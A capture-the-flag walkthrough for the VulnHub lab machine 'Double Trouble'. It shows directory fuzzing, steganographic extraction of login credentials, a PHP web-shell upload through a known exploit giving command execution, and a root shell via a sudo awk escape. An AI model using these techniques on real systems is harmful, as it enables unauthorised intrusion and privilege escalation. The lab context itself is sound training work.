 # Double Trouble

![image](https://user-images.githubusercontent.com/5285547/135430124-917a6511-92da-44d3-978c-6acc89725b18.png)

Created by: tasiyanci
Link: https://www.vulnhub.com/entry/doubletrouble-1,743/

## Enumeration

Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ffuf

```
ffuf -u "http://192.168.1.162/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt   -mc all -fc 404,403 -c -e .txt,.html,.tar,.php,.js -fl 10

images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
install                 [Status: 301, Size: 316, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
template                [Status: 301, Size: 317, Words: 20, Lines: 10]
core                    [Status: 301, Size: 313, Words: 20, Lines: 10]
readme.txt              [Status: 200, Size: 470, Words: 60, Lines: 13]
index.php               [Status: 200, Size: 5812, Words: 563, Lines: 144]
robots.txt              [Status: 200, Size: 26, Words: 2, Lines: 3]
backups                 [Status: 301, Size: 316, Words: 20, Lines: 10]
check.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
secret                  [Status: 301, Size: 315, Words: 20, Lines: 10]
.                       [Status: 200, Size: 6993, Words: 593, Lines: 155]
batch                   [Status: 301, Size: 314, Words: 20, Lines: 10]
sf                      [Status: 301, Size: 311, Words: 20, Lines: 10]
```

## /secret

Looking in the secret directory we find an image "doubletrouble.jpg", Using stegonography we can decode the message and get some creds! 

```
stegseek doubletrouble.jpg -xf output
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "92camaro"       
[i] Original filename: "creds.txt".
[i] Extracting to "output".
```

```
cat output               
otisrush@localhost.com
oti[REDACTED]  
```

## Exploit

http://192.168.1.165/index.php/

Now we can login. 

![image](https://user-images.githubusercontent.com/5285547/135429387-126d3cd2-c0b4-4ad3-b05b-84cebfa879fd.png)

![image](https://user-images.githubusercontent.com/5285547/135429437-be8a11da-282f-4f57-9d9b-05c213c95d2f.png)

According to the exploit found here: https://www.exploit-db.com/exploits/47954,
we can upload a php webshell anbd gain access on changing the user image. After uploading the php shell.  
Goto the http://IP/uploads/users/

![image](https://user-images.githubusercontent.com/5285547/135429687-c81c14b0-1e88-4be5-b51c-dd6cad3ff872.png)

Now we can execute code! 

http://192.168.1.162/uploads/users/941147-shell_web.php?cmd=id

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root

Checking the system we see we can use awk as any user with no password. 

```
sudo -l 
(ALL : ALL) NOPASSWD: /usr/bin/awk
```

Expliot to root!

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

![image](https://user-images.githubusercontent.com/5285547/135429947-e003040a-8776-4e59-8fff-1a00c2c7f393.png)


Thanks to https://twitter.com/tasiyanci for the box!
